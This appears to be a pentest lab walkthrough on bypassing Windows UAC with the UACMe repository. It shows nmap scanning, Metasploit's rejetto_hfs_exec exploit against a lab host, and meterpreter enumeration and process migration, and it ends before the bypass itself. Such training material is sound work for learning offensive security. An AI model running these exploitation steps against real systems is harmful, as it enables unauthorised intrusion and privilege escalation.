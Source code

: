 UACME GitHub 存储库包含一个非常有据可查的方法列表，这些方法可用于在从 Windows 7 到 Windows 10 的多个版本的 Windows 上绕过 UAC。

它允许攻击者通过滥用内置的 Windows AutoElevate 工具在具有管理/提升权限的 Windows 目标上执行恶意负载。

UACMe GitHub 存储库有 60 多个可用于绕过 UAC 的漏洞，具体取决于目标上运行的 Windows 版本。

# Demo: Bypassing UAC With UACMe

I used a user account that is a part of the local adminisrator group on Windows.

I open up a Command Prompt here.

`右键点击上边栏->Properties->Font->Size->20`

```
C:\Users\IEUser>net users
C:\Users\IEUser>net localgroup administrators
```

UAC Security level: `Starup Menu->Change User Account Control settings`

How we can bypass UAC through the access within standard command shell or meterpreter session:

```
Target IP Address: 10.2.22.220
```

First step, identify a vulerablity or vulnerable service running on the target that we can exploit to get initial access.

```
nmap 10.2.22.220
```

访问：

```
http://10.2.22.220
```

```
service postgresql start && msfconsole

setg RHOSTS 10.2.22.220
search rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
exploit
```

Perform some basic local enumeration to identify what version of Windows is running, what current user we have access to, what privileges this user has.

The current meterpreter session is a 32 bit session, so I can migrate to the explore process, so I can search for the explore process by using `pgrep`, search for the process id for the explorer.exe. Migrate to 2448, that provide me with a 64 bit meterpreter session. We currentlt logged on as admin users. Get current user privileges.

```
meterpreter> sysinfo
OS  :   Windows 2012 R2 (6.3 Build 9600)
Meterpreter :   x86/windows
meterpreter> pgrep explorer
2448
meterpreter> migrate 2448
meterpreter> sysinfo
Meterpreter : x64/windows
meterpreter> getuid
Server username: VICTIM\admin
meterpreter> getprivs
```
